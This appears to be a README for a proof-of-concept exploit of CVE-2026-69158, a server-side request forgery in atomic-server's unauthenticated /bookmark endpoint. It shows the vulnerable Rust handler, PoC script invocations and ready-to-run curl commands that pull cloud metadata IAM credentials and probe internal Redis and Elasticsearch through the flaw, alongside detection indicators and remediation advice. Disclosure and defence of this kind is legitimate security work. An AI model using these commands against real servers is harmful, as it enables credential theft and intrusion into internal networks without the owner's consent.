

<div align="center">

# CVE-2026-69158

### atomic-server — Server-Side Request Forgery via /bookmark


</div>

---

## Overview

atomic-server < 0.39.0 provides a `/bookmark` endpoint that fetches the URL
supplied in the `url` query parameter and returns the full HTTP response body,
without authentication and without restricting the target to public addresses. An
unauthenticated attacker can use this to perform Server-Side Request Forgery,
reaching cloud metadata endpoints (IMDS), internal services, and loopback addresses.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-69158 |
| **CVSS 3.1** | `9.1 Critical` — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:H` |
| **CWE** | CWE-918 (Server-Side Request Forgery) |
| **Affected** | atomic-server < 0.39.0 |
| **Patch** | v0.39.0 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-19 |

---

## Vulnerability Details

The bookmark handler in `server/src/routes/bookmark.rs` fetches arbitrary URLs
without an allowlist or authentication check:

```rust
// VULNERABLE — server/src/routes/bookmark.rs (pre-0.39.0)
pub async fn bookmark(
    query: web::Query<BookmarkQuery>,
    // No auth guard
) -> impl Responder {
    let client = reqwest::Client::new();
    // CWE-918: attacker-controlled URL fetched server-side
    match client.get(&query.url).send().await {
        Ok(resp) => {
            let body = resp.text().await.unwrap_or_default();
            HttpResponse::Ok().body(body)   // full response returned to attacker
        }
        Err(e) => HttpResponse::InternalServerError().body(e.to_string()),
    }
}
```

---

## Attack Flow



---

## PoC Usage

### Setup

```bash
pip install -r requirements.txt
```

### Scenario 1 — IMDS enumeration (AWS)

```bash
python poc.py -u https://atomicserver.corp --ssrf-url http://169.254.169.254/latest/meta-data/
```

### Scenario 2 — Enumerate internal HTTP services

```bash
python poc.py -u https://atomicserver.corp \
  --scan-internal 10.0.0.0/24 --scan-port 8080 --scan-port 9200
```

### Scenario 3 — SSRF to localhost services

```bash
python poc.py -u https://atomicserver.corp --ssrf-url http://127.0.0.1:6379/
```

### Scenario 4 — Fingerprint only

```bash
python poc.py -u https://atomicserver.corp --check-only
```

### Manual curl reproduction

```bash
# IMDS
curl -sk "https://TARGET/bookmark?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Internal Redis
curl -sk "https://TARGET/bookmark?url=http://127.0.0.1:6379/"

# Internal Elasticsearch
curl -sk "https://TARGET/bookmark?url=http://127.0.0.1:9200/_cat/indices"
```

### Available flags

| Flag | Description |
|---|---|
| `-u / --url` | Target atomic-server URL |
| `--ssrf-url URL` | Single URL to fetch via SSRF |
| `--ssrf-list FILE` | File with one SSRF target URL per line |
| `--scan-internal CIDR` | CIDR range to scan via SSRF |
| `--scan-port INT` | Port to scan (repeatable) |
| `--check-only` | Fingerprint only |
| `--proxy URL` | HTTP proxy |
| `--insecure` | Disable TLS verification |
| `-o / --output FILE` | Save results to JSON |
| `--timeout INT` | Request timeout (default: `15`) |
| `-v / --verbose` | Verbose output |

---

## Detection

| Indicator | Notes |
|---|---|
| `GET /bookmark?url=http://169.254.*` | Cloud IMDS probe |
| `GET /bookmark?url=http://127.*` or `http://10.*` | Internal network probe |
| `/bookmark` requests from external IPs | Access log / WAF rule |

---

## Impact

An unauthenticated attacker can:

- Exfiltrate cloud instance metadata and IAM credentials
- Port-scan and fingerprint internal network services
- Read data from internal HTTP APIs (Redis, Elasticsearch, Kubernetes API)
- Pivot to internal services that trust requests from the atomic-server host

---

## Remediation

| Action | Detail |
|---|---|
| **Upgrade** | Update to atomic-server >= 0.39.0 |
| **Network** | Block atomic-server egress to RFC1918/IMDS ranges at the network level |
| **Auth** | Restrict `/bookmark` to authenticated users only (until patched) |

---

## References

- [atomic-server v0.39.0 release notes](https://github.com/atomicdata-dev/atomic-server/releases/tag/v0.39.0)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

---

> **Disclaimer:** Published for authorised security research only. Use exclusively
> on systems you own or have explicit written permission to test.
